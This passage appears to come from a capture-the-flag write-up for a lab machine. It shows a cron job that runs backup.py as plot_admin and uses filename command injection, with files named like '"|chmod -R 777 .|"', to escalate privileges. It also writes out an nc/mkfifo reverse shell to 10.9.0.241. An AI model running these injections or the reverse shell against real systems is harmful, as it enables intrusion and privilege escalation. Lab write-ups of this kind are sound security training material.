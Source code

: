 ```bash
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
* * * * *   plot_admin /usr/bin/python3 /home/plot_admin/backup.py
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *   root    /usr/bin/rsync /var/log/apache2/m*_access /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y); /usr/bin/chown -R plot_admin:plot_admin /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y)
#
```

And there's an `cronjob` running it with the user `plot_admin`!! 

So, if you check the `backup.py` script, there are 2 variables:

`moodle_location` and `backup_location`

We have write permissions for the `path` that the variable `moodle_location` is pointing at!

And since that variable is not being sanitized, we can inject malicious code and it will be run since the script is using the function `os.system`!

So we basically made a file with the name `"|chmod -R 777 .|"` what will this filename do? It will break the code and since we have the pipe (|) character, in Linux it's used to execute another command after the current one! We give `R-W-X` permission to everyone for `home` directory of the user `plot_admin`!


```bash
www-data@plotted-lms://var/www/uploadedfiles/filedir$ ls -la
total 44
-rw-r--r--  1 www-data www-data    5 Apr 24 09:30 '"|chmod -R 777 .|"'
drwxrwxrwx  9 www-data www-data 4096 Apr 24 09:30  .
drwxrwxrwx 10 www-data www-data 4096 Jan 31 10:54  ..
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  0c
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  5f
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  75
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  8c
drwxrwxrwx  3 www-data www-data 4096 Apr 24 09:27  bf
drwxrwxrwx  3 www-data www-data 4096 Feb  4 07:14  d9
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  da
-rw-rw-rw-  1 www-data www-data  168 Jan 31 10:52  warning.txt
```

After this we created a simple reverse shell and copied it to the `home` directory of the user, after that we used the same technique to execute this script as `plot_admin`!

```bash
www-data@plotted-lms://var/www/uploadedfiles/filedir$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.9.0.241 1338 >/tmp/f" > exploit.sh

www-data@plotted-lms://var/www/uploadedfiles/filedir$ mv exploit.sh /home/plot_admin/exploit.sh

www-data@plotted-lms://var/www/uploadedfiles/filedir$ echo "test" > '"|bash exploit.sh|"'

www-data@plotted-lms://var/www/uploadedfiles/filedir$ ls -la
total 48
-rw-r--r--  1 www-data www-data    5 Apr 24 09:30 '"|bash exploit.sh|"'
-rw-r--r--  1 www-data www-data    5 Apr 24 09:30 '"|chmod -R 777 .|"'
drwxrwxrwx  9 www-data www-data 4096 Apr 24 09:30  .
drwxrwxrwx 10 www-data www-data 4096 Jan 31 10:54  ..
drwxrwxrwx  3 www-data www-data 4096 Jan 31 10:54  0c
```